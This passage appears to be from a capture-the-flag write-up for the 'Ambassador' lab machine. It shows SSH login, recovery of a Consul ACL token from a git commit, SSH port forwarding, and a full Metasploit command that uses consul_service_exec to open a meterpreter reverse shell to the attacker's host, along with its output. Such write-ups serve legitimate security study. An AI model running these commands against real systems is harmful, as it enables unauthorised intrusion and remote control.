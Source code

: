 <img src="https://user-images.githubusercontent.com/67650329/208114975-a7be7846-744f-4939-b1c5-95c8a8900947.png" width="500px" align="center">

After we decrypt tha password we got the original password. We can use for ssh.

## Maintaining Access / Post Exploitation

`ssh developer@10.10.11.183`

```
developer@ambassador:~$ whoami
developer
developer@ambassador:~$ pwd
/home/developer
developer@ambassador:~$ ls
asd  asdf  ex  exploit.py  snap  user.txt
developer@ambassador:~$ cat user.txt
f***2
```
We got the user and we can continue to the next level.

`cd /opt/my-app/`

`git show`
```SQL
commit 33a53ef9a207976d5ceceddc41a199558843bf3c (HEAD -> main)
Author: Developer <developer@ambassador.local>
Date:   Sun Mar 13 23:47:36 2022 +0000

    tidy config script

diff --git a/whackywidget/put-config-in-consul.sh b/whackywidget/put-config-in-consul.sh
index 35c08f6..fc51ec0 100755
--- a/whackywidget/put-config-in-consul.sh
+++ b/whackywidget/put-config-in-consul.sh
@@ -1,4 +1,4 @@
 # We use Consul for application config in production, this script will help set the correct values for the app
-# Export MYSQL_PASSWORD before running
+# Export MYSQL_PASSWORD and CONSUL_HTTP_TOKEN before running
 
-consul kv put --token bb03b43b-1d81-d62b-24b5-39540ee469b5 whackywidget/db/mysql_pw $MYSQL_PASSWORD
+consul kv put whackywidget/db/mysql_pw $MYSQL_PASSWORD
```
We got the token mysql. We can exploit use Metasploit.

`ssh -L 8500:0.0.0.0:8500 developer@10.10.11.183`

`sudo msfconsole -q -x "use multi/misc/consul_service_exec; set payload linux/x86/meterpreter/reverse_tcp;set rhosts 127.0.0.1; set lhost [tun0]; set acl_token bb03b43b-1d81-d62b-24b5-39540ee469b5; set lport 8801; exploit"`

```
[*] Using configured payload linux/x86/meterpreter/reverse_tcp
payload => linux/x86/meterpreter/reverse_tcp
rhosts => 127.0.0.1
lhost => 10.10.14.74
acl_token => bb03b43b-1d81-d62b-24b5-39540ee469b5
lport => 8801
[*] Started reverse TCP handler on 10.10.14.74:8801 
[*] Creating service 'jetHPARA'
[*] Service 'jetHPARA' successfully created.
[*] Waiting for service 'jetHPARA' script to trigger
[*] Sending stage (989032 bytes) to 10.10.11.183
[*] Meterpreter session 1 opened (10.10.14.74:8801 -> 10.10.11.183:45420) at 2022-12-15 06:08:12 -0500
[*] Removing service 'jetHPARA'
```